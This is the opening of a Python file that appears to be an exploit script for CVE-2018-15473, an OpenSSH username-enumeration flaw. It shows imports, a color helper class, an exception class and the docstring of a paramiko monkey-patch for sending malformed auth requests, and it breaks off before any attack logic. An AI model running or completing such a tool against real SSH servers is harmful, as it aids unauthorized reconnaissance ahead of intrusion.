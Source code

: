     import sys
    import re
    import socket
    import logging
    import argparse
    import multiprocessing
    from typing import Union
    from pathlib import Path

    import paramiko

    assert sys.version_info >= (3, 6), "This program requires python3.6 or higher"


    class Color:
        """ Class for coloring print statements.  Nothing to see here, move along. """
        BOLD = '\033[1m'
        ENDC = '\033[0m'
        RED = '\033[38;5;196m'
        BLUE = '\033[38;5;75m'
        GREEN = '\033[38;5;149m'
        YELLOW = '\033[38;5;190m'

        @staticmethod
        def string(string: str, color: str, bold: bool = False) -> str:
            """ Prints the given string in a few different colors.
            Args:
                string: string to be printed
                color:  valid colors "red", "blue", "green", "yellow"
                bold:   T/F to add ANSI bold code
            Returns:
                ANSI color-coded string (str)
            """
            boldstr = Color.BOLD if bold else ""
            colorstr = getattr(Color, color.upper())
            return f'{boldstr}{colorstr}{string}{Color.ENDC}'


    class InvalidUsername(Exception):
        """ Raise when username not found via CVE-2018-15473. """


    def apply_monkey_patch() -> None:
        """ Monkey patch paramiko to send invalid SSH2_MSG_USERAUTH_REQUEST.
            patches the following internal `AuthHandler` functions by updating the internal `_handler_table` dict
                _parse_service_accept
                _parse_userauth_failure
            _handler_table = {
                MSG_SERVICE_REQUEST: _parse_service_request,
                MSG_SERVICE_ACCEPT: _parse_service_accept,
                MSG_USERAUTH_REQUEST: _parse_userauth_request,
                MSG_USERAUTH_SUCCESS: _parse_userauth_success,
                MSG_USERAUTH_FAILURE: _parse_userauth_failure,
                MSG_USERAUTH_BANNER: _parse_userauth_banner,
                MSG_USERAUTH_INFO_REQUEST: _parse_userauth_info_request,
                MSG_USERAUTH_INFO_RESPONSE: _parse_userauth_info_response,
            }
        """
